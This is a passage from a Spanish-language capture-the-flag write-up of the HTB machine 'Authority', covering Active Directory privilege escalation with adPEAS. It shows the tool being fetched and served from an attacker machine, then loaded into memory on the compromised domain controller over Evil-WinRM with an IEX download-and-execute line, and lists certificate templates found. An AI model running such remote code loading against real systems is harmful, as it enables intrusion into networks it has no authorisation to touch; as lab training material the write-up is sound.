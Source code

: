 ## Privilege Escalation&#x20;

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Debido que nos encontramos en un Domain Controller, haremos una enumeración a través de `adPEAS` que es una herramienta automatizada para realizar un escaneo en Active Directory en busca de encontrar alguna de escalar privilegios.

Para ello nos descargaremos en nuestro equipo el `adPEAS` y lo compartiremos a través de un servidor web.

```bash
❯ wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
--2025-02-22 05:05:44--  https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.111.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.110.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3493853 (3,3M) [text/plain]
Grabando a: «adPEAS.ps1»

adPEAS.ps1                                                100%[===================================================================================================================================>]   3,33M  3,54MB/s    en 0,9s    

2025-02-22 05:05:46 (3,54 MB/s) - «adPEAS.ps1» guardado [3493853/3493853]

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el Domain Controller, importaremos en memoria el `adPEAS` y lo invocaremos para realizar el análisis.

```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> IEX(New-Object Net.WebClient).downloadString("http://10.10.16.3/adPEAS.ps1")
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-adPEAS
```

En la enumeración con `adPEAS`, identificamos que la máquina tiene `Active Directory Certificate Services (ADCS)` habilitado, específicamente con la CA `AUTHORITY-CA`, que está corriendo en `authority.authority.htb` (IP `10.10.11.222`).

Al revisar los **templates disponibles**, encontramos varios, entre ellos:

* **CorpVPN**
* **AuthorityLDAPS**
* **DomainControllerAuthentication**
* **KerberosAuthentication**
* **User**
* **Administrator**
* Y otros más...
